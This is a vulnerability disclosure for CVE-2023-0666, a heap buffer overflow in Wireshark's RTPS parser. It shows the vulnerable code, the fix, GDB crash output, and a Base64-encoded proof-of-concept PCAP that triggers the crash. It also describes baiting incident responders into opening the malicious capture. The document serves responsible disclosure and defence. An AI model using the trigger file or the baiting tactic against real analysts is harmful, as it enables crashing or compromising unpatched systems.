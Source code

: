 ```yaml
---
layout: default
title: CVE-2023-0666 🤘
categories: nav
showinnav: false
---
```


# CVE-2023-0666: Wireshark RTPS Parsing Buffer Overflow

[AHA!] has discovered an issue with [Wireshark] from The Wireshark Foundation, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] today, on Monday, June 5, 2023. [CVE-2023-0666] has been assigned to this issue.

Any questions about this disclosure should be directed to **cve@takeonme.org**.

# Executive Summary

Due to failure in validating the length provided by an attacker-crafted [RTPS](https://wiki.wireshark.org/Protocols/rtps) packet, Wireshark version 4.0.5 and prior, by default, is susceptible to a heap-based buffer overflow, and possibly code execution in the context of the process running Wireshark. [CVE-2023-0666] appears to be an instance of [CWE-122].

# Technical Details

The `rtps_util_add_type_library_type` function contains a call to `g_strlcpy` that, without validation, uses a length supplied by the packet data that can result in a heap-based buffer overflow.

Snippet of the vulnerable code:

```
  static gint rtps_util_add_type_library_type(proto_tree *tree,
          tvbuff_t * tvb, gint offset, const guint encoding, dissection_info *info) {
    proto_tree * annotation_tree;
    guint32 member_id = 0, member_length = 0, long_number, i;
    gint offset_tmp;
    guint16 short_number;
    gchar * name = NULL;
    rtps_util_dissect_parameter_header(tvb, &offset, encoding, &member_id, &member_length);
    offset_tmp = offset;
/* ... */
    long_number = tvb_get_guint32(tvb, offset_tmp, encoding);
    name = tvb_get_string_enc(wmem_packet_scope(), tvb, offset_tmp+4, long_number, ENC_ASCII);
    if (info)
      (void) g_strlcpy(info->member_name, name, long_number);
```

The `dissection_info` struct is defined as:

```
  typedef struct _dissection_info {
    guint64 type_id;
    gint member_kind;
    guint64 base_type_id;
    guint32 member_length;
    gchar member_name[MAX_MEMBER_NAME];

    RTICdrTypeObjectExtensibility extensibility;

    gint32 bound;
    guint32 num_elements;
    dissection_element* elements;

  } dissection_info;
```

and `MAX_MEMBER_NAME` is defined as:

```
  #define MAX_MEMBER_NAME                 (256)
```

The overflow occurs when `long_number` is greater than 256 bytes however it should be noted that this does require that many bytes to have been sent.

`g_strlcpy` expects the size of the destination buffer as the last argument so this can be remediated by using `sizeof(info->member_name)` instead of `long_number` in the `g_strlcpy` call. Additionally, the return value should be checked because if it is greater than `sizeof(info->member_name)`, then truncation occurred.

Reproduction: Run `tshark -r rtps_trigger.pcap` or open `rtps_trigger.pcap` in Wireshark. Note that an ASAN build is not required due to the way the PCAP was crafted.

Full output from running under GDB:

```
(gdb) run -r ~/rtps_trigger.pcap
Starting program: /usr/bin/tshark -r ~/rtps_trigger.pcap

This GDB supports auto-downloading debuginfo from the following URLs:
https://debuginfod.ubuntu.com
Enable debuginfod for this session? (y or [n]) n
Debuginfod has been disabled.
To make this setting permanent, add 'set debuginfod enabled off' to .gdbinit.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7fffebcdd6c0 (LWP 125835)]
[Thread 0x7fffebcdd6c0 (LWP 125835) exited]
[New Thread 0x7fffebcdd6c0 (LWP 125836)]
[Thread 0x7fffebcdd6c0 (LWP 125836) exited]
    1   0.000000 192.168.0.231 → 192.168.0.214 TCP 54 2603 → 9187 [SYN] Seq=0 Win=8192 Len=0
    2   0.000363 192.168.0.214 → 192.168.0.231 TCP 54 9187 → 2603 [SYN, ACK] Seq=0 Ack=0 Win=8192 Len=0
    3   0.000611 192.168.0.231 → 192.168.0.214 TCP 54 2603 → 9187 [ACK] Seq=1 Ack=0 Win=8192 Len=0
    4   0.000853 192.168.0.231 → 192.168.0.214 RTPS 1454 DATA_deprecated[Malformed Packet]

Thread 1 "tshark" received signal SIGSEGV, Segmentation fault.
wmem_block_split_free_chunk (allocator=0x5555555bf660, chunk=0x7fffe9f44fb0, size=<optimized out>) at ./wsutil/wmem/wmem_allocator_block.c:614
614     ./wsutil/wmem/wmem_allocator_block.c: No such file or directory.
(gdb) x/5i $pc
=> 0x7ffff088db1b <wmem_block_split_free_chunk+267>:    mov    QWORD PTR [rsi+0x10],rax
   0x7ffff088db1f <wmem_block_split_free_chunk+271>:    mov    QWORD PTR [r8+0x8],rax
   0x7ffff088db23 <wmem_block_split_free_chunk+275>:    jmp    0x7ffff088da9b <wmem_block_split_free_chunk+139>
   0x7ffff088db28 <wmem_block_split_free_chunk+280>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x7ffff088db30 <wmem_block_split_free_chunk+288>:    mov    rax,QWORD PTR [rcx+0x10]
(gdb) p (char[]) $rsi
$1 = "AHA!AHA!"
```

A Base64 encoded blob of an example PCAP that can trigger the issue is below.

[expand]

```
1MOyoQIABAAAAAAAAAAAAP//AAABAAAAW+1JZDkZDgA2AAAANgAAAHRGoNgQS3RGo
CvQ6AgARQAAKAABAABABvfBwKgA58CoANYKKyPjAAC1rAAAAABQAiAAKRoAAFvtSW
SkGg4ANgAAADYAAAB0RqAr0Oh0RqDYEEsIAEUAACgAAQAAQAb3wcCoANbAqADnI+M
KKwAAAAEAALWsUBIgACkJAABb7UlknBsOADYAAAA2AAAAdEag2BBLdEagK9DoCABF
AAAoAAEAAEAG98HAqADnwKgA1gorI+MAALWtAAAAAVAQIAApCgAAW+1JZI4cDgCuB
QAArgUAAHRGoNgQS3RGoCvQ6AgARQAFoAABAABABvJJwKgA58CoANYKKyPjAAC1rQ
AAAAJQGCAA7yIAAAAACJBSVFBTAgABAQAAAAAAAQkBEjRWeAIbeABSZWFkV3JpdJh
2VDIQ/ty6EjRWeN6tur5FZ4kKuqqqrRD+3LpyAEwAAQAAAAYAAABGaQABDgAAAAIA
AAARIjNEVWZ3iJmqu8zd7v8WFxgZICEiIyQBAgMEBQYHCAkQERITFBUWFxgZICEiI
yQDAAAARXhwAAEAAABBYTBBYTFBYTJBYTNBYTRBYTVBYTZBYTdBYThBYTlBYjBBYj
FBYjJBYjNBYjRBYjVBYjZBYjdBYjhBYjlBYzBBYzFBYzJBYzNBYzRBYzVBYzZBYzd
BYzhBYzlBZDBBZDFBZDJBZDNBZDRBZDVBZDZBZDdBZDhBZDlBZTBBZTFBZTJBZTNB
ZTRBZTVBZTZBZTdBZThBZTlBZjBBZjFBZjJBZjNBZjRBZjVBZjZBZjdBZjhBZjlBZ
zBBZzFBZzJBZzNBZzRBZzVBZzZBZzdBZzhBZzlBaAAEAABBaDJBaDNBaDRBaDVBaD
ZBaDdBaDhBaDlBaTBBaTFBaTJBaTNBaTRBaTVBaTZBaTdBaThBaTlBajBBajFBajJ
BajNBajRBajVBajZBajdBajhBajlBazBBazFBazJBazNBazRBazVBazZBazdBazhB
azlBbDBBbDFBbDJBbDNBbDRBbDVBbDZBbDdBbDhBbDlBbTBBbTFBbTJBbTNBbTRBb
TVBbTZBbTdBbThBbTlBbjBBbjFBbjJBbjNBbjRBbjVBbjZBbjdBbjhBbjlBbzBBbz
FBbzJBbzNBbzRBbzVBbzZBbzdBbzhBbzlBcDBBcDFBcDJBcDNBcDRBcDVBcDZBcDd
BcDhBcDlBcTBBcTFBcTJBcTNBcTRBcTVBcTZBcTdBcThBcTlBcjBBcjFBSEEhQUhB
ITRBcjVBcjZBcjdBcjhBcjlBczBBczFBczJBczNBczRBczVBczZBczdBczhBczlBd
DBBdDFBdDJBdDNBdDRBdDVBdDZBdDdBdDhBdDlBdTBBdTFBdTJBdTNBdTRBdTVBdT
ZBdTdBdThBdTlBdjBBdjFBdjJBdjNBdjRBdjVBdjZBdjdBdjhBdjlBdzBBdzFBdzJ
BdzNBdzRBdzVBdzZBdzdBdzhBdzlBeDBBeDFBeDJBeDNBeDRBeDVBeDZBeDdBeDhB
eDlBeTBBeTFBeTJBeTNBeTRBeTVBeTZBeTdBeThBeTlBejBBejFBejJBejNBejRBe
jVBejZBejdBejhBejlCYTBCYTFCYTJCYTNCYTRCYTVCYTZCYTdCYThCYTlCYjBCYj
FCYjJCYjNCYjRCYjVCYjZCYjdCYjhCYjlCYzBCYzFCYzJCYzNCYzRCYzVCYzZCYzd
CYzhCYzlCZDBCZDFCZDJCZDNCZDRCZDVCZDZCZDdCZDhCZDlCZTBCZTFCZTJCZTNC
ZTRCZTVCZTZCZTdCZThCZTlCZjBCZjFCZjJCZjNCZjRCZjVCZjZCZjdCZjhCZjlCZ
zBCZzFCZzJCZzNCZzRCZzVCZzZCZzdCZzhCZzlCaDBCaDFCaDJCaDNCaDRCaDVCaD
ZCaDdCaDhCaDlCaTBCQWEwQWExQWEyQWEzQWE0QWE1QWE2QWE3QWE4QWE5QWIwQWI
xQWIyQWIzQWI0QWI1QWI2QWI3QWI4QWI5QWMwQWMxQWMyQWMzQWM0QWM1QWM2QWM3
QWM4QWM5QWQwQWQxQWQyQWQzQWQ0QWQ1QWQ2QWQ3QWQ4QWQ5QWUwQWUxQWUyQWUzQ
WU0QWU1QWU2QWU3QWU4QWU5QWYwQWYxQWYyQWYzQWY0QWY1QWY2QWY3QWY4QWY5QW
cwQWcxQWcyQWczQWc0QWc1QWc2QWc3QWc4QWc5QWgwQWgxQWgyQWgzQWg0QWg1W+1
JZBUeDgA2AAAANgAAAHRGoCvQ6HRGoNgQSwgARQAAKAABAABABvfBwKgA1sCoAOcj
4worAAAAAgAAuyVQECAAI5EAAFvtSWQAHw4AUgMAAFIDAAB0RqDYEEt0RqAr0OgIA
EUAA0QAAQAAQAb0pcCoAOfAqADWCisj4wAAuyUAAAACUBggAG1hAABBaDZBaDdBaD
hBaDlBaTBBaTFBaTJBaTNBaTRBaTVBaTZBaTdBaThBaTlBajBBajFBajJBajNBajR
BajVBajZBajdBajhBajlBazBBazFBazJBazNBazRBazVBazZBazdBazhBazlBbDBB
bDFBbDJBbDNBbDRBbDVBbDZBbDdBbDhBbDlBbTBBbTFBbTJBbTNBbTRBbTVBbTZBb
TdBbThBbTlBbjBBbjFBbjJBbjNBbjRBbjVBbjZBbjdBbjhBbjlBbzBBbzFBbzJBbz
NBbzRBbzVBbzZBbzdBbzhBbzlBcDBBcDFBcDJBcDNBcDRBcDVBcDZBcDdBcDhBcDl
BcTBBcTFBcTJBcTNBcTRBcTVBcTZBcTdBcThBcTlBcjBBcjFBSEEhQUhBITRBcjVB
cjZBcjdBcjhBcjlBczBBczFBczJBczNBczRBczVBczZBczdBczhBczlBdDBBdDFBd
DJBdDNBdDRBdDVBdDZBdDdBdDhBdDlBdTBBdTFBdTJBdTNBdTRBdTVBdTZBdTdBdT
hBdTlBdjBBdjFBdjJBdjNBdjRBdjVBdjZBdjdBdjhBdjlBdzBBdzFBdzJBdzNBdzR
BdzVBdzZBdzdBdzhBdzlBeDBBeDFBeDJBeDNBeDRBeDVBeDZBeDdBeDhBeDlBeTBB
eTFBeTJBeTNBeTRBeTVBeTZBeTdBeThBeTlBejBBejFBejJBejNBejRBejVBejZBe
jdBejhBejlCYTBCYTFCYTJCYTNCYTRCYTVCYTZCYTdCYThCYTlCYjBCYjFCYjJCYj
NCYjRCYjVCYjZCYjdCYjhCYjlCYzBCYzFCYzJCYzNCYzRCYzVCYzZCYzdCYzhCYzl
CZDBCZDFCZDJCZDNCZDRCZDVCZDZCZDdCZDhCZDlCZTBCZTFCZTJCZTNCZTRCZTVC
ZTZCZTdCZThCZTlCZjBCZjFCZjJCZjNCZjRCZjVCZjZCZjdCZjhCZjlCZzBCZzFCZ
zJCZzNCZzRCZzVCZzZCZzdCZzhCZzlCaDBCaDFCaDJCaDNCaDRCaDVCaDZCaDdCaD
hCaDlCaTBCW+1JZHggDgA2AAAANgAAAHRGoCvQ6HRGoNgQSwgARQAAKAABAABABvf
BwKgA1sCoAOcj4worAAAAAgAAvkFQECAAIHUAAA==
```

[/expand]

<br/>

# Attacker Value

By providing this poisoned RTPS packet, an attacker could hijack the user account of an analyst running Wireshark. Many security appliances capture packets as a matter of course for later analysis, and Wireshark is a common tool used by incident responders. So, it would be trivial for an attacker to intentionally "get caught" in order to provide their malicious packet to an incident response analyst. Once compromised, this can provide an attacker a unique, privileged position in the targeted network.

# Credit

This issue is being disclosed through the AHA! CNA and is credited to: [Austin Hackers Anonymous!](https://infosec.exchange/@austinhackers)

# Timeline

Note, while we expected to publicly disclose this issue in early July (60 days after disclosure to The Wireshark Foundation), the vendor publicized the issue on May 22nd in issue [19085].

* 2023-04-27 (Wed): Initial findings presented at the regularly scheduled [meeting] 0x00c7.
* 2023-05-17 (Wed): PoC validated and analysis completed for disclosure.
* 2023-05-18 (Thu): Disclosed to the vendor via email at security@wireshark.org.
* 2023-05-18 (Thu): Vendor acknowledged, and opened issue [19085] to address.
* 2023-05-21 (Sun): Patch [merged](https://gitlab.com/wireshark/wireshark/-/merge_requests/10687) to the release-4.0 branch of Wireshark.
* 2023-05-22 (Mon): Issue [19085] made public by the vendor.
* 2023-05-24 (Wed): [CVE-2023-0666] fixed in Wireshark version [4.0.6](https://gitlab.com/wireshark/wireshark/-/commit/ac2f5a01286addcb34ffb204e1eeb5fd8ccdb85c)
* 2023-06-06 (Tue): Public disclosure of [CVE-2023-0666]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2023-0666]: https://takeonme.org/cves/CVE-2023-0666.html
[CWE-122]: https://cwe.mitre.org/data/definitions/122.html
[meeting]: https://takeonme.org/meetings.html
[19085]: https://gitlab.com/wireshark/wireshark/-/issues/19085
[Wireshark]: https://www.wireshark.org/download.html